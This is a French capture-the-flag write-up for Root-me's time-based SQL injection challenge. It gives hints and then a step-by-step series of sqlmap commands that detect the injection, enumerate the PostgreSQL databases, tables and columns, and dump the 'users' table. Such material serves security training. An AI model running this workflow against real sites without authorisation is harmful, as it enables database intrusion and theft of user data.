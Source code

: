 ```yaml
---
title: Root-me - SQL injection - Time based
meta_title: ""
description: 
date: 2024-06-07T05:00:00Z
image: /images/rootme_logo.png
categories:
  - WebServeur
  - Facile
author: Tmax
tags:
  - WebServeur
  - Rootme
  - SQLi
draft: false
---
```


# Introduction

Pour ce challenge, nous allons devoir réaliser une SQLi basé sur le temps d’exécution. 
Ce qui signifie que nous sommes censé injecter du code qui effectue un delay ou un sleep si ce que nous requêtons est vrai ou non.

{{< tabs >}} {{< tab "Niveau 1" >}}
- Vous avez bien lu la description du challenge ? Les ressources également ?
- Vous avez essayé de regarder des techniques sur Internet ? 
- Vous ne connaissez vraiment pas un outil qui peut vous aider à faire cela ? 
- Vous êtes sur d'avoir essayé d'injecter un payload test dans tous les endpoints ?  

{{< /tab >}}

{{< tab "Niveau 2" >}}

Après quelques recherches, j'ai découvert une documentation pour l'outil `sqlmap` pour réaliser ce genre d'attaque. 

Il s'agit déjà de trouver l'endpoint vulnérable : 

```bash
sqlmap --url "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=" --technique=T --level 5 --risk 3 --batch --random-agent
```

Comme nous connaissons à présent le type de base de donnée, nous recherchons les bases de données : 

```bash
sqlmap --url "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=" --dbms=postgresql --dbs --technique=T --level 5 --risk 3 --threads 10 --batch --random-agent
```

Je requête les tables de cette base : 

```bash
sqlmap --url "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=" --dbms=postgresql -D public --tables --technique=T --level 5 --risk 3 --threads 10 --batch --random-agent  
```

Je requête l'un de ces tables pour connaitre ses colonnes : 

```bash
sqlmap --url "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=" --dbms=postgresql -D public -T users --columns --technique=T --level 5 --risk 3 --threads 10 --batch --random-agent
```

Puis je cherche à présent le contenu de ces colonnes : 

```bash
sqlmap --url "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=" --dbms=postgresql -D public -T users --columns --technique=T --level 5 --risk 3 --threads 10 --dump --batch --random-agent
```

{{< /tab >}}
{{< /tabs >}}
